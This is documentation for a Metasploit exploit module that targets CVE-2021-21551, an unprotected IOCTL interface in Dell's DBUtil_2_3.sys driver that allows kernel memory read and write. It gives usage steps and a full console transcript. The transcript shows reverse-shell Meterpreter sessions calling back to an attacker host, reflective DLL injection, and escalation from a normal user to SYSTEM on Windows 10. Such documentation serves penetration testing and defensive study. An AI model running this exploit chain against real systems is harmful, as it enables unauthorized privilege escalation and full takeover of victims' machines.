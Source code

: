 ## Vulnerable Application
The DBUtil_2_3.sys driver distributed by Dell exposes an unprotected IOCTL interface that can be abused by an attacker
read and write kernel-mode memory.

### Supported Targets

* Windows 7 SP0 x64
* Windows 7 SP1 x64
* Windows 8.1 x64
* Windows 10 x64 v1803 - 20H2

## Verification Steps

1. Start msfconsole
1. Get a Meterpreter session on a vulnerable host
1. Do: `use exploit/windows/local/cve_2021_21551_dbutil_memmove`
1. Set the `SESSION` and `PAYLOAD` options
1. Do: `run`
1. You should get a shell.

## Scenarios

### Windows 10 Version 1909 Build 18363.418 x64

```
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Sending stage (200262 bytes) to 192.168.159.79
[*] Meterpreter session 2 opened (192.168.159.128:4444 -> 192.168.159.79:57013) at 2021-05-12 16:10:10 -0400

meterpreter > sysinfo
Computer        : DESKTOP-RTCRBEV
OS              : Windows 10 (10.0 Build 18363).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 5
Meterpreter     : x64/windows
meterpreter > getuid
Server username: DESKTOP-RTCRBEV\Alice Liddle
meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: Access is denied. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
[-] Named Pipe Impersonation (RPCSS variant)
meterpreter > run exploit/windows/local/cve_2021_21551_dbutil_memmove

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Launching notepad to host the DLL...
[+] Process 5212 launched.
[*] Reflectively injecting the DLL into 5212...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (200262 bytes) to 192.168.159.79
[*] Meterpreter session 3 opened (192.168.159.128:4444 -> 192.168.159.79:57015) at 2021-05-12 16:12:43 -0400
[*] Session 3 created in the background.
meterpreter > sessions 3
[*] Backgrounding session 2...
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
